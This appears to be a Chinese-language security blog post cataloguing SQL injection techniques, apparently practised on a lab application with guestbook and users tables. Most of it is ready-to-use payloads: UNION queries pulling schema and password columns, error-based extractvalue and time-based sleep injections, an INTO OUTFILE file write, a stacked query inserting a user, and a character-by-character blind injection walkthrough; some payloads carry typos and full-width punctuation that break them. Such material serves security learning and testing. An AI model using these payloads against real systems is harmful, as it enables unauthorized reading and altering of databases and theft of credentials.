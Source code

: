 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
description: sql注入的绕过方法
---
```

### 一些常用的注入
### Union注入漏洞存在时注入步骤：
1、order by num 来判断这个表有多少个字段  
2、知道字段数后，可以利用union查询 union select 1，2，3.。。num FROM 表名  
 例如:  id=1 UNION SELECT 1，2，3，table_schema FROM information_schema.TABLES //来查询数据库名。  
3、id=1 UNION SELECT 1，2，3，group_concat(table_name) FROM information_schema.TABLES where table_schema=‘想要查询的数据库名字’ //查询所选数据库中所有的表名  
4、union select 1，2，3，group_concat(column_name) from information_schema.COLUMNS where table_schema=’数据库名’ and table_name=‘表名’//查询表中的字段名  
5、知道pass段名有user union select 1，2，3，pass from user  

### Order by注入:  
当原始sql语句是order by时不能使用union等进行注入  
1、可以使用rand()函数，如果order by rand(true)和order by rand(false)的结果不同，就可以进行盲注。(rand()产生随机数）
![](https://ljjbloghub.github.io/img/SQL1.jpg)
   
 	(rand(ascii(substr(database(),1,1)) > 100)根据结果返回值判断真假。)  
2、报错注入  
sort=（extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database() ) )) ）#字符型考虑闭合’and (extractvalue)—+  
3、导入导出文件into outfile参数 

	?sort=1 into outfile "c:\\xampp\\htdocs\\test1.txt”   
    
4、延时注入  

	？sort=1’ and if(ascii(substr(database(),1,1))>100,0,sleep(5) )—+  
    
#(如果为假，就会有延迟)

### 堆叠查询：
即构成多个语句，每一条语句结尾加 ; 表示语句结束。并不是每一个环境下都可以执行

	id=1%27;insert into users(id,username,password) values (‘40’,’Ren’,’hello’)
    

### user-agent头存在注:同理 referer
在服务器能够获取ua信息时却对ua内容没有进行过滤时，通过burp使用报错注入
![](https://ljjbloghub.github.io/img/sql2.jpg)

报错信息’）要需求多构造）
![](https://ljjbloghub.github.io/img/sql2.jpg)
### cookie注入： 
对cookie的值进行union注入,注意cookie是否经过编码

### 盲注： 
- 判断是否存在注入，注入是字符型还是数字型
- 猜解当前数据库名
- 猜解数据库中的表名
- 猜解表中的字段名
- 猜解数据

1.判断注入是字符型还是数字型  
 
输入：1' and 1=1;#  
 
输出：User ID exists in the database.  
 
输入：1' and 1=2;#  
 
输出：User ID is MISSING from the database.  
 
则可以判断为字符型注入。  
2.猜解当前数据库信息  
 
猜解数据库长度:  
 
1' and length(database())=4;#  
 
数据库名的长度是4位.  
 
使用二分法猜解数据库名：  
 
1' and ascii(substr(database(),1,1)) > 100;#  
 
  User ID is MISSING from the database.  
 
1' and ascii(substr(database(),1,1)) < 100;#  
 
  User ID is MISSING from the database.  
 
判断出数据库名的第一个ascii字符为100，就是d，以此按照以上方法可以猜解出数据库名.  
 
3.猜解表信息  
 
猜解表数：  
 
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1; #  
 
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2; #  
 
判断出数据库中存在两个表  
 
1' and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9; #  
 
判断出第一个表名的长度为9  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<110; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103; #  
 
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103; #  
 
判断出第一个表名的第一个字母是g  
 
重复以上步骤，猜解出两个表名分别为 guestbook，users  
 
4、猜解字段名  
 
猜解字段的数量：  
 
1' and (select count(column_name) from information_schema.columns where table_name='users')=8; #  
 
输出：User ID exists in the database.  
 
猜解字段长度：  
 
1' and length(substr((select column_name from information_schema.columns where table_name= 'users' limit 0,1),1))=7; #  
猜解字段名:  
1’and ascii（substr(select column_name from information_schema.columns where table_name=‘users’ limit 0,1)，1,1））>97 //猜解第一个字段的第一个字母的ascii
